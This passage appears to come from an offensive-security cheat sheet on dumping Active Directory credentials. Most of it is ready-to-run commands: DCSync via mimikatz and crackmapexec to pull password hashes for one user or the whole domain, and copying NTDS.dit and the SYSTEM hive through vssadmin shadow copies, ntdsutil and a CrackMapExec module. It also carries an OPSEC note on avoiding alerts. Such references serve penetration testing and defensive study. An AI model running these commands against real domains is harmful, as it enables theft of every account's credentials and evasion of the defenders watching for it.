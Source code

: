 However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

### DCSync Attack

DCSync is a technique used by attackers to obtain sensitive information, including password hashes, from a domain controller in an Active Directory environment. Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data. 

* DCSync only one user
  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
  ```
* DCSync all users of the domain
  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /all /csv

  crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
  crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
  ```

> :warning: OPSEC NOTE: Replication is always done between 2 Computers. Doing a DCSync from a user account can raise alerts.


### Volume Shadow Copy

The VSS is a Windows service that allows users to create snapshots or backups of their data at a specific point in time. Attackers can abuse this service to access and copy sensitive data, even if it is currently being used or locked by another process.

* [windows-commands/vssadmin](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/vssadmin)
  ```powershell
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
  ```
* [windows-commands/ntdsutil](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/identity/use-ntdsutil-manage-ad-files)
  ```powershell
  ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
  ```
* [CrackMapExec VSS module](https://wiki.porchetta.industries/smb-protocol/obtaining-credentials/dump-ntds.dit)
  ```powershell
  cme smb 10.10.0.202 -u username -p password --ntds vss
  ```


### Extract hashes from ntds.dit
